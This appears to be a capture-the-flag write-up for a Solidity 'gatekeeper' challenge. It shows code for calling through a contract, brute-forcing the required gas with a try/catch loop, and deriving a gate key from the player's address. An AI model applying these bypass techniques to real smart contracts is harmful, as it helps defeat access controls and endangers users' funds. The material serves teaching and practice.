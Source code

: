 ## Gate one

The first gate requires to call from a contract:

```solidity
require(msg.sender != tx.origin);
```

## Gate two

The second gate requires a specific amount of gas:

```solidity
require(gasleft() % 8191 == 0);
```

This could be worked out in debug mode on Remix for example, by logging the remaining gas at this point.
But this is tedious; instead it can be bruteforced:

```solidity
for (uint i=0; i<8191; i++) {
  try Gate(TARGET).enter{gas:81910+i}(key) {
    console.log(i);
    break;
  } catch {}
}
```

I implemented this loop in a second contract to make sure this extra logic wasn't consuming gas.
In the end it returns:

> `256`

## Gate three

Casting to a smaller uint removes the bytes on the right.

So the first check means that the bits 16 to 31 are zeroes:

```solidity
require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)))
```

IE the key follows the template `0x????????0000????`.

Then the first half cannot be all zeroes:

```solidity
require(uint32(uint64(_gateKey)) != uint64(_gateKey))
```

And finally:

```solidity
require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)))
```

Means that the first 2 bytes of the key are the same as the player's address:
in my case, `0xAAD026992b0065D4A9c7019B082cb748D042411F`.

So the key is now like `0x????????0000411F`, for example `0xFFFFFFFF0000411F`.

The key can also be computed at runtime with:

```solidity
uint64 key = uint64(1 << 62) + uint64(uint16(uint160(tx.origin)));
```
